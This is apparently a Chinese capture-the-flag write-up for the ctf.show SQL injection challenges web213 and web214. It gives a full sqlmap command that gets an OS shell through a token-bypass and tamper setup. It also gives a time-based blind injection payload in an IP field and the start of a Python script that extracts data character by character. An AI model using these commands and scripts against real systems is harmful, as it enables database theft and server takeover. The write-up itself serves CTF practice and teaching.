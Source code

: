 同上

## web213

os-shell

```bash
sqlmap.py -u "http://b368fa62-6fe6-45ec-ad8c-7c8bf99218eb.challenge.ctf.show/api/index.php" --data "id=1" --user-agent "sqlmap" --referer "ctf.show" --method PUT --headers "Content-Type: text/plain" --safe-url "http://b368fa62-6fe6-45ec-ad8c-7c8bf99218eb.challenge.ctf.show/api/getToken.php" --safe-freq 1 --tamper "my" --os-shell
```

![20220727213816](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220727213816.png)

其实网站路径就是 /var/www/html/

![20220727213833](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220727213833.png)

显示失败, 但其实已经上传成功了

![20220727213913](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220727213913.png)

flag 在根目录

![20220727214305](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220727214305.png)

## web214

没给语句和过滤条件

不知道地址

抓包发现有一个 POST 请求

![20220728202301](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220728202301.png)

应该是记录 IP 的

提示是时间盲注, ip 试了 `xxx' and sleep(5)#` 等等都不行

最后闲的打了个 `sleep(5)` 竟然成功了

![20220728202436](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220728202436.png)

不知道是什么逻辑...

`ip=if(length(user())>0,sleep(5),0)&debug=0` 有延时5秒

盲注脚本

```python
import time
import requests

dicts='{ctfshow1234567890-asdf_,qeryuipgjklzxvbnm}'

url = 'http://d8bfb2ec-cba0-4834-bcbb-26ab784c74de.challenge.ctf.show/api/index.php'

flag = ''

for i in range(64):
    for s in dicts:
        #sql = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        #sql = 'select group_concat(column_name) from information_schema.columns where table_name=\'ctfshow_flagx\' and table_schema=database()'
        sql = 'select group_concat(flaga) from ctfshow_flagx'
        payload = f'if(substr(({sql}),{i},1)=\'{s}\',sleep(2),0)'
```